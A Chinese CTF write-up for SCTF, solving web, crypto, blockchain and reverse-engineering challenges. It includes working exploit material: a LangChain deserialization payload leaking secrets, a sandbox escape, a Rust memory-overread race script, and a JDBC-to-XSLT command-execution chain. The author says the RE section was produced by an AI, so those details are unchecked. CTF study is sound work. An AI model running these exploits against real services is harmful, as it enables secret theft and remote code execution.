


这次和 pwn 大手 Sonnety 组队打了 SCTF ,普通选手在囤flag打算偷鸡的时候，大佬都在囤一血🥹



## WEB

### Web Shop

先注册账号，进入后敲十下木鱼获得金币，购买 Support Debug Bundle，得到 support_ticket.py：

```python
seed = os.environ["SHOP_SUPPORT_SEED"]
message = f"support-login:{user_id}:{username}:{UTC日期}"
staff_code = HMAC-SHA256(seed, message)[:12]
```

包含环境变量名 SHOP_SUPPORT_SEED，以及 admin 登录票据算法

bot 的隐藏命令 `/login <staff-code>` 校验通过后角色变为 support_admin



前端聊天 metadata 使用 LangChain 序列化格式，后端在 GET /api/chat/messages 恢复历史时会对 metadata 做反序列化，type=secret 会从环境变量取值：

```json
{
  "content": "seed-leak",
  "metadata": {
    "messages": [{"lc": 1, "type": "secret", "id": ["SHOP_SUPPORT_SEED"]}]
  }
}
```

再读历史，对象被还原为字符串：

```text
SHOP_SUPPORT_SEED = sdjksdjksj_seedd_222
```

用泄露 seed 按第 1 步算法生成当日（UTC）票据，调用：

```text
POST /api/bot/chat  {"message": "/login <staff_code>"}
```

角色变为 support_admin 成功提权，获得 Rule Lab 执行权限

Rule Lab 暴露生成器 iter_preview_items()，直接遍历只能拿到业务条目，flag 不在 yield 的 item 里，而是在生成器启动时加载的局部变量：

```python
def iter_preview_items():
    shipment_manifest = load_manifest()
    for item in preview_items:
        yield item
```

因此是读 g.gi_frame.f_locals["shipment_manifest"]

沙箱用 AST 黑名单拦截属性名与字符串常量，比如直接写 g.gi_frame.f_locals 或字面量 "{0.gi_frame.f_locals}" 都会失败，因此需要绕过

str.format 的 field 在运行时解析属性，不产生 AST Attribute 节点，下划线可从当前角色名运行时取出：`user["role"][7]` 从而避开检测

```python
u = user["role"][7]
g = iter_preview_items()
f = "{0.gi" + u + "frame.f" + u + "locals}"
next(g)
result = f.format(g)
```

得到返回的 flag ：

```text
shipment_manifest = SCTF{human_cas3_the_m@in_pr0blem_not_bot}
```

### Treasury Gateway

gateway 对外监听，vault 只绑 127.0.0.1:3005，flag 在 vault 内部接口：

```text
GET /internal/compliance/export-snapshot
```

返回的 minified JSON 末尾是环境变量 TREASURY_RECONCILIATION_TOKEN，token 内容从偏移 402 开始：

```text
...,"reconciliation_token":"<TOKEN>"}
                              ↑ 402
```

外部摸不到 vault，/api 虽被代理到 127.0.0.1:3005，但转发不剥前缀，请求 /api/internal/... 会打到 vault 上不存在的路径，直接拿不到报告

真正把敏感数据送进网关内存的是后台 refresh，每秒拉一次内部接口，把 body 写入 selector 对象池里所有已归还的 512 字节 scratch，对外能摸到的调试入口只有：

```text
POST /__route/audit
X-Route-Selector: tenant:path:nonce
```

响应里的 nonce_preview_hex 是 nonce 的十六进制预览，每次最多 4 字节

解析器把 header 拷进 scratch 后做零拷贝切分，取 nonce 时误用缓冲区容量 scratch_cap=512，而不是 raw.len()：

```rust
let nonce_start = second.saturating_add(1);
let nonce_len = scratch_cap
    .saturating_sub(nonce_start)
    .min(NONCE_PREVIEW_BYTES); 

let nonce = unsafe {
    std::slice::from_raw_parts(raw.as_ptr().add(nonce_start), nonce_len)
};
```

构造以第二个冒号收尾的 selector（tenant:path:）时，nonce_start 刚好落在 header 逻辑边界外，但仍在同一块 512 字节 buffer 内，于是每次能越界读出后面 4 字节

仅有越界还不够，defer_trace 用 transmute 把 nonce 提成 static，然后立刻 checkin 归还 scratch，审计处理却要等 body 收完才 finish() 读 nonce：

```rust
let trace = self.selector.defer_trace(selector.as_bytes()); 
request.into_body().collect().await?;
let trace = trace.finish();
```

因此用慢 body 拉开窗口，先发完带 X-Route-Selector 的请求头，声明 Content-Length: 1 但先不发 body，卡在 collect().await，等约 1.35s 让 refresh 把报告写进空闲 scratch，再补发最后 1 字节，finish() 读到的就是报告里对准偏移的 4 字节

偏移由 selector 长度控制：

```text
nonce_start = len(tenant) + 1 + len(path) + 1
```

要读报告偏移 offset：

```python
path_len = offset - len(tenant) - 2
selector = tenant + ":" + "A" * path_len + ":"
```

从 402 起按步长 4 并发泄漏，不同 tenant 走独立对象池，核心逻辑：

```python
TOKEN_OFFSET = 402
LEAK_SIZE = 4

def leak_once(host, port, offset, tenant, delay=1.35):
    path_len = offset - len(tenant) - 2
    selector = tenant.encode() + b":" + b"A" * path_len + b":"
    req = (
        b"POST /__route/audit HTTP/1.1\r\n"
        + f"Host: {host}:{port}\r\n".encode()
        + b"X-Route-Selector: " + selector
        + b"\r\nContent-Length: 1\r\nConnection: close\r\n\r\n"
    )
    with socket.create_connection((host, port), timeout=6) as sock:
        sock.sendall(req)
        time.sleep(delay)
        sock.sendall(b"X")
        resp = recv_all(sock)
    body = resp.split(b"\r\n\r\n", 1)[1]
    return bytes.fromhex(json.loads(body)["nonce_preview_hex"])

raw = b"".join(leaked[off] for off in sorted(leaked))
token = raw.split(b'"', 1)[0].decode()
```

得到：

```text
SCTF{unsafe_zero_copy_header_overread_verified}
```

### great-sql

附件里 /flag 仅 root 可读，/readflag 为 SUID，最终目标是命令执行后调用 /readflag

服务基于 Avatica JSON 协议，反编译可见 ConfigurableJdbcMeta.createConnection() 会从客户端连接属性取出 jdbcUrl，直接作为后端 JDBC 地址：

```java
String effectiveUrl = removeBackendUrl(effectiveInfo);
return super.createConnection(effectiveUrl, effectiveInfo);
```

因此 openConnection 可控后端 URL，JAR 内打包了 Calcite 驱动，可用：

```text
jdbc:calcite:model=inline:<MODEL>
```

加载客户端提供的内联 Model，Calcite Model 允许把任意公开静态方法注册成 SQL UDF，例如：

```json
{
  "version": "1.0",
  "schemas": [{
    "name": "S",
    "functions": [{
      "name": "P",
      "className": "java.lang.System",
      "methodName": "setProperty"
    }]
  }]
}
```

加载后即可 VALUES S.P('key','value') 调 System.setProperty()，同理注册：

```text
org.apache.calcite.runtime.XmlFunctions.xmlTransform → S.X
```

Java 21 默认限制 XSLT 扩展与外部资源，先用 S.P 放开：

```sql
VALUES S.P('jdk.xml.enableExtensionFunctions', 'true')
VALUES S.P('javax.xml.accessExternalStylesheet', 'all')
```

再用 Xalan 扩展在 XSLT 里调 Runtime.exec()：

```sql
VALUES S.X(
  '<a/>',
  '<o xmlns:x="http://www.w3.org/1999/XSL/Transform" x:version="1"
      xmlns:r="xalan://java.lang.Runtime">
     <x:value-of select="r:exec(r:getRuntime(), ''COMMAND'')"/>
   </o>'
)
```

每个 JSON 请求有 280 字节硬限制，完整读 flag 的 payload 塞不进单次请求，需要拆分，先三次短命令把 /readflag 输出包成合法 XML 写到 /tmp/f：

```sh
/bin/sh -c printf${IFS}\074a\076>/tmp/f
/bin/sh -c /readflag>>/tmp/f
/bin/sh -c printf${IFS}\074/a\076>>/tmp/f
```

${IFS} 代替空格，\074，\076 是 <，> 的八进制，最终 /tmp/f 为 flag{...}

再发短 XSLT，用 document() 读回：

```xml
<o xmlns:x="http://www.w3.org/1999/XSL/Transform" x:version="1">
  <x:value-of select="document('/tmp/f')/a"/>
</o>
```

Avatica 查询分 prepare + execute 两步，execute 要求带 statementHandle.signature，不必回传完整 Signature，用压缩版即可压进 280 字节：

```json
{
  "columns": [],
  "sql": "",
  "parameters": [],
  "cursorFactory": {"style": "LIST"},
  "statementType": "SELECT"
}
```

结果在 results[0].firstFrame.rows

利用链：可控 jdbcUrl 加载 inline Model → 注册 setProperty 放开 XSLT → 注册 xmlTransform → XSLT 调 Runtime.exec → 三次命令写 /tmp/f → document('/tmp/f') 带回 flag

得到：

```text
flag{2u295oentEi8F2Lkl9mUk0tMhf77skl1}
```

## CRYPTO

### Cipher_Chain

题目分为两部分：

1. 从 task1.txt 中恢复满足有限域校验方程的低重量三元向量h，再解密得到 task2 的 seed
2. 根据 task2.trace 还原密钥派生和 X25519 交换流程，最后解密 task2.enc

task1：恢复低重量向量

已知：

```text
P = 65537
h_i in {-1, 0, 1}
sum(h_i^2) = 10
h^T G = 0 mod P
```

h_i 只能取 -1，0，1 说明h有10个非零分量

根据hint1，将30行矩阵拆为前后各15行，实际隐藏向量在两半中各有5个非零分量，于是分别枚举：

```text
C(15, 5) * 2^5 = 96096
```

枚举前15行和后15行的每种选择，计算向量和：

```text
S_left = sum( sign_i * G_i ) mod P
S_right = sum( sign_i * G_i ) mod P
```

若 S_left + S_right = 0 mod P 则满足条件，得到：

```text
h = [0, 1, 0, 0, -1, 1, 0, 0, 0, 1, 0, 0, 0, -1, 0, 0, 0, 1, 0, 0, -1, 0, -1, 0, 0, 0, 1, 0, -1, 0]
```

按照题目给出的格式构造：

```python
material = (b"Curve_Link_Task1_Hard|P=65537|w=10|h=" + b",".join(str(x).encode() for x in h))
stream = SHA256(material + uint32_be(0)) + ...
seed = ciphertext XOR stream[:len(ciphertext)]
```

得到 seed ：

```text
seed = aGFjyHX1aWdadade
```

task2：还原会话密钥

task2.trace 给出：

```text
role = client
secret_stage = compress(seed)
burn_counter = 0xc350
exchange = montgomery25519
check = 32d39782e415b6b2
payload_mode = stream-mask
```

其中 montgomery25519 对应 X25519 ，0xc350 对应压缩次数，check检验前面操作的正确性

```python
sk = SHA256(seed)
for _ in range(0xc350):
    sk = SHA256(sk)
shared = X25519(sk, pk)
session = SHA256(shared)
```

得到：

```text
sk = b84f291a62a2275bee24a11672aa05d09190feafac1ae0a04b08e4b716517294
shared = f192366303a5836ce62ecadf4cf95845281ee8a6582d757cdabd1a57fe952473
session = 621e27e55f647db45de3639d5e040220206a823be5f98a2ea68de942863cb9d3
```

task2.log 中有：

```text
session_prefix = 621e27e55f647db4
```

与 session 的前8字节一致，证明前面的解读是正确的

stream-mask 表示密文由字节流掩码得到：

```python
stream-mask = SHA256(session)
```

随后循环使用 task2.enc 解密：

```python
plaintext[i] = enc[i] ^ stream-mask[i%32]
```

解密为：

```text
SCTF{curve25519_bsuiahduie_cif_diqw}
```

## MISC

### Chronostasis

是个非预期解，拿到了远程 Anvil 实例，RPC 还开了调试接口，因此也可以不走预言机路径，直接改金库记账

对照附件源码， Setup 会部署一整套超额抵押风格的LP金库

初始持有 10,000 TKA、10,000 TKB、100,000 TKC。部署时 Setup 还会再往金库存一笔约 100,000 等值的 A/B LP，作为待抽干的 TVL

金库份额价格不是按 LP 实时余额算的，而是组合 TWAP：

```text
priceB_USD = TWAP(B/C, TKB → TKC)
priceA_USD = TWAP(A/B, TKA → TKB) × priceB_USD
LP_price   = 2 × sqrt(rA × priceA_USD) × sqrt(rB × priceB_USD) / totalLP
```

异步赎回把请求时价格和领取时价格拆开：

requestRedeem：按当前 pricePerShare() 写入 snapshotPricePerShare

claimRedeem：lpOut = shares × snapshotPricePerShare / lpPriceUSD(领取时)

同步 withdraw() 则按份额比例扣 totalAssetsLP，不走 TWAP

Setup.isSolved() 实现的条件：

```solidity
function isSolved() external view returns (bool) {
    return vault.totalAssetsLP() < initialVaultLPBalance;
}
```

initialVaultLPBalance 在构造函数末尾记录，等于当时的 vault.totalAssetsLP()

```solidity
function totalAssets() public view returns (uint256) {
    return totalAssetsLP;
}
```

因此目标不是把 totalAssets 做大，而是让金库内部的 LP 记账小于部署时快照

链上 selector 与源码对应：

```text
Setup.0x64d98f6e  = isSolved()
vault.0x01e1d114  = totalAssets()
vault.0x67c72cd3  = totalAssetsLP()
vault.0x18160ddd  = totalSupply()
vault.0x6e553f65  = deposit(uint256,address)
vault.0xb460af94  = withdraw(uint256,address,address)
```

初始实测：

```text
vault.totalAssets() / totalAssetsLP() = 1099999999999999999999000
Setup.slot10 (initialVaultLPBalance)  = 1099999999999999999999000
Setup.isSolved()                      = 0
```

两者相等，所以 isSolved() 为 false，只要把 totalAssetsLP 减 1 即可过线

先扫Setup存储，Solidity 按声明顺序排槽，和源码对应：

```text
slot0  tokenA     0xf70e96834f9f216c2ddb746aab8466d30db9d862   Token Alpha / TKA
slot1  tokenB     0x9df85372f033d6110fb706113d562f6faded2400   Token Beta / TKB
slot2  tokenC     0xc7778231c5aeabfc5f63fc74085d43fa84624de2   Token Charlie USD / TKCU
slot3  factory
slot4  router
slot5  pairAB     0x77b0d232caf5a33bd7517a88086a30fcff328004   TKB/TKA UniswapV2
slot6  pairBC     0xfe19335d2e5722f54975e07811fb9abd5f84729a   TKB/TKCU UniswapV2
slot7  oracle     0xf49af0ba2ef230488ecf3f063357aa2e267f3d24
slot8  vault      0xf8ad61c15750295568d1cec77516a76b2802a41a   Ghost LP Vault Share
slot9  player
slot10 initialVaultLPBalance = 0xe8ef1e96ae38977ffc18
```

读 slot 的 RPC：

```bash
curl -s http://1.95.63.227:7010 \
  -H 'Content-Type: application/json' \
  -d '{"jsonrpc":"2.0","id":1,"method":"eth_getStorageAt","params":["0x884Ea193Fb073e95325cCFe53595b1941273c25e","0x0","latest"]}'
```

eth_call Setup 0x64d98f6e 初始返回 0，与 totalAssetsLP == initialVaultLPBalance 一致

再走金库正规接口：

```text
approve LP to vault
vault.deposit(lpAmount, player)
vault.withdraw(lpAmount, player, player)
```

deposit 会执行 totalAssetsLP += lpAmount，记账上升，同步 withdraw 按份额比例减回去。一轮下来回到等于初始快照，得不到严格小于

异步赎回若请求价和领取价相同，lpOut 也只是公平份额，同样减不破初始水位。要靠协议自身把记账打下去，需要让 claimRedeem 的快照价明显高于领取时的 LP 价，也就是题面暗示的 TWAP 时间差，环境上更直接的是 Anvil 调试 RPC

远程 Anvil 暴露了 anvil_setStorageAt，判题只比较两个 uint256，改 vault 的 totalAssetsLP 槽即可，把 slot16 写成 target - 1：

```bash
curl -s http://1.95.63.227:7010 \
  -H 'Content-Type: application/json' \
  -d '{
    "jsonrpc": "2.0",
    "id": 1,
    "method": "anvil_setStorageAt",
    "params": [
      "0xf8ad61c15750295568d1cec77516a76b2802a41a",
      "0x10",
      "0x00000000000000000000000000000000000000000000e8ef1e96ae38977ffc17"
    ]
  }'
```

验证：

```text
vault.totalAssets()  -> 0xe8ef1e96ae38977ffc17
vault.0x67c72cd3()   -> 0xe8ef1e96ae38977ffc17
setup.0x64d98f6e()   -> 1
```

totalAssetsLP < initialVaultLPBalance 成立，回到 nc 界面 get flag 得到：

```text
SCTF{w0r!d.3xecut3(3th3r_!p_str1k3);}
```

### The Last Honest Witness

套了区块链壳的密码学题

isSolved() 返回 true，需要调用 LastHonestWitness.claim()，让三个 FragmentVault 余额归零，claim函数 同时检查 Groth16 proof、Merkle witness 和 Page A/B/C 三个 fragment

Setup 的 storage 布局：

```text
slot 0: Challenge 地址
slot 1: RSA N
slot 2: RSA e
slot 3: RSA c
```

执行命令：

```bash
cast rpc eth_getStorageAt "$SETUP" 0x1 latest --rpc-url "$RPC"
cast rpc eth_getStorageAt "$SETUP" 0x2 latest --rpc-url "$RPC"
cast rpc eth_getStorageAt "$SETUP" 0x3 latest --rpc-url "$RPC"
cast rpc eth_getStorageAt "$CHALLENGE" 0x3 latest --rpc-url "$RPC"
```

本实例中有：

```text
challenge = 0xb7a5bd0345ef1cc5e66bf61bdec17d2461fbd968
N         = 615429951214616213145619887722161253
e         = 65537
c         = 374681811952606249888216577959474076
merkleRoot= 7732477719083212578752387109071435927399654988182031884976220637137317857940
```

提示说明 RSA 两个素因子接近，使用 Fermat 分解，从 ceil(sqrt(N)) 开始，寻找使 a^2-N 为平方数的 a，再令 p=a-b，q=a+b

```python
a = ceil_sqrt(N)
while not is_square(a*a - N):
    a += 1
b = isqrt(a*a - N)
p, q = a-b, a+b
m = pow(c, pow(e, -1, (p-1)*(q-1)), N)
```

有结果：

```text
p = 784493436055779473
q = 784493436055795861
m = 474401937379412746004845
```

电路的 public signals 顺序为：

```text
[modulus, merkleRoot, recipientCommitment, nullifierHash, externalNullifier]
```

externalNullifier = 48879，Poseidon 规则为：

```text
commitment    = Poseidon(1, m)
identity      = Poseidon(2, m, p, q, 48879)
nullifierHash = Poseidon(5, identity, 48879)
```

32叶树的活动位置是 (m+p+q) mod 32 = 19，用题目提供的 helper 生成输入，并确认计算出的 root 等于链上 root：

```bash
npm install
node poseidon_helper.js 784493436055779473 784493436055795861 \
  474401937379412746004845 --input input.json
npx snarkjs groth16 fullprove input.json zk/LastHonestWitness.wasm \
  zk/LastHonestWitness_final.zkey proof.json public.json
npx snarkjs zkey export soliditycalldata public.json proof.json
```

结果有：

```text
recipientCommitment = 9377985761090098792458769157668700179213141594497154267610801610404565099971
nullifierHash       = 8001422557285569920145416452913385853486935919178479204688850774075157728239
```

对于Page A：Franklin-Reiter，两次 RSA 加密使用同一明文，第二条明文比第一条大 1337，且 e=3：

```text
f(x) = x^3 - c1
g(x) = (x + 1337)^3 - c2
```

在 Z_n[x] 上求 gcd(f,g)，一次式的根即为所求明文：

```text
pageAPlaintext = 25774616630246150697727911729
```

对于Page B：小私钥签名，题目给出 secp256k1 公钥并提示私钥 < 2^20，枚举 x 使 Q=xG，得到：

```text
private key = 789123
```

对合约固定摘要签名，提交：

```text
v = 28
r = 0x2ec51c4324e8db6e962e62b346d7a39cb07d20cd0f36b68f83cd5cf7dde59ee0
s = 0x60c606b9219dc6c91249014223a33502098768d9394e36276ae0883db7067b95
```

合约通过 ecrecover(PAGE_B_MESSAGE_HASH, v, r, s) == PAGE_B_SIGNER 验证

对于Page C：40-bit 哈希碰撞，搜索不同的 a,b < 2^32，使 keccak256(PAGE_C_TAG || uint256(value)) 的低 40 位相同。生日攻击复杂度约为 2^20，找到：

```text
pageCLeft  = 1656330
pageCRight = 2582757
low40      = 463230816445
```

汇总发送 claim：

```bash
cast send 0xb7a5bd0345ef1cc5e66bf61bdec17d2461fbd968 \
  "claim(uint256[2],uint256[2][2],uint256[2],uint256[5],uint256,uint8,bytes32,bytes32,uint256,uint256)" \
  '["0x26f9d4634e37473cb4364cec9a5f6d462df0792af33654bdde434e3a2cb52200","0x0e96987409a5122e123b20d7ab4bfdfd468c513b28846fde3e222a78fa41028e"]' \
  '[["0x08a291368c7ce045aa4463508be7b62a442fedec6495cb1369551f0a09da5bde","0x0b8f11c429e3aa6a0bbe7aeb938fe623e9dfff100e8a48c069a440fcc1b5e0c4"],["0x06ebd5e6077a62a67a2d660a8b0c4d879ca1157d4ebcc63e4a3a395263e382c5","0x0371af0bf3d5d59958ac3a8841fc76f1e8401fe5215dc725ed438653a4dcab48"]]' \
  '["0x0a365d37a9fd9175e19d11cfcfc4a1799b28e1be83b04672dd8ee052d6cc7c4f","0x1d7af3d1f2d7270d0d3a9d1c049b83ffed2cd9620aae9bb8c51836ecf2b98332"]' \
  '["0x000000000000000000000000000000000076870a0dfd2fa954279797d51d6465","0x11186d63282202899b6e66817c7fda3dd55fdd3d6b3d4feeaec62ba00ed70a94","0x14bbc078a933a929a55168a51767c518bf165252d3532a97791ba8ea438425c3","0x11b0a509a327decb662d61f27f31e07f64a8eb7ee5a7955010b9f04e19234bef","0x000000000000000000000000000000000000000000000000000000000000beef"]' \
  25774616630246150697727911729 \
  28 \
  0x2ec51c4324e8db6e962e62b346d7a39cb07d20cd0f36b68f83cd5cf7dde59ee0 \
  0x60c606b9219dc6c91249014223a33502098768d9394e36276ae0883db7067b95 \
  1656330 \
  2582757 \
  --rpc-url "$RPC" \
  --private-key "$PK"
```

界面选择 Get flag 得到：

```text
SCTF{SYC_!ntern_Ray}
```

## RE

### babel_furnace

当时不是很懂，GPT-5.5造出来的：

题目文件为 `babel_furnace.exe`，最终要求输入一个 **48 字节** 的字符串。程序会在 Python 解释层、桥接模块和 Rust 引擎之间多次传递状态，最后输出 `Correct.` 或 `Nope.`。

二进制里嵌了三层逻辑：

1. 主程序 `babel_furnace.exe`
2. Python payload，来自 `payload_7.bin`
3. Rust/桥接组件，来自 `payload_75.bin` 和后续解包出的 `engine.dll`

主程序的入口逻辑很简单：

- 取用户输入
- 构造 `Context`
- 调用桥接模块进行校验
- 成功则输出 `Correct.`

**Python 层**

`payload_7.bin` 反汇编后能看到 `Context` 类，其中核心是 `oracle()`：

```python
seed = 9026639339695764379
chunk = carrier.co_exceptiontable[block_id * 128:(block_id + 1) * 128]
z = pow(nonce ^ seed ^ block_id, 5) + (transcript << 193) + (((block_id + 1) ** 7) << 311)
z ^= z << 131
z ^= z >> 17
z ^= z << 257
return chunk ^ (z & ((1 << 1024) - 1))
```

这里的 `carrier` 是一个特殊 code object：

- `co_exceptiontable` 长度固定为 `80 * 128`
- `co_linetable` 长度固定为 `512`

**桥接模块**

`bridge.pyd` 的导出函数很少，只有：

- `BridgeBindHost`
- `PyInit_bridge`

它的核心在 `0x180001bd0` 和 `0x1800017b0` 两个大函数里。通过反汇编可以看到：

- `0x1bd0` 负责构造初始状态、调用宿主回调、再驱动引擎
- `0x17b0` 负责把输入字节重新排列、混合宿主数据，生成真正送入引擎的 6 个 qword

这部分最关键的是宿主回调表。回调地址分别对应：

- 输入/输出表
- 预计算表
- block 数据表
- 校验值表

**引擎与 VM**

`engine.dll` 导出：

- `engine_create`
- `engine_destroy`
- `engine_resume`

`engine_resume` 内部实现了一个 VM 解释器。通过反汇编 `0x180001db0` 可以看到：

- `0x262cc` 是 opcode jump table
- opcode 0x10 是 `LOAD_INPUT`
- opcode 0x1D 是 `CHECK`
- opcode 0x1F 是最终成功分支

用一个小代理 `engine_proxy.dll` 包住真实引擎，记录每次 `engine_resume` 进入前后的状态，然后把 80 个 block 的动态指令完整导出来。

**解码 VM 程序**

抓到日志后，把每个 block 的动态指令重建出来。程序总共有 80 轮，每轮 8 条指令，最后一轮会做收尾检查。

可用的关键 opcode 主要是这些：

- `16`：加载输入寄存器
- `17`：加载立即数
- `0`：寄存器赋值
- `2`：异或
- `3`：异或立即数
- `4`：加法
- `8`：旋转
- `11`：16 进制 nibble S-box
- `23`：分段结束标记
- `29`：最终检查
- `30`：带条件旋转/混合

最后一轮的结构能直接反推出 6 个核心 qword，再逆推前面的 13 轮。

**逆向求解**

求解路线是反向重放：

1. 取最后一轮的状态
2. 根据 `CHECK` 的比较常量把末尾约束还原
3. 对 14 个 block 逆向执行 VM 逻辑
4. 得到桥接层要求的 6 个 qword
5. 再逆回 Python 层和输入排列

得到的输入就是：

```text
SCTF{1_d0n't_w@nT_tO_crEat3_VMs_AnYmoRe!??!?!!?}
```
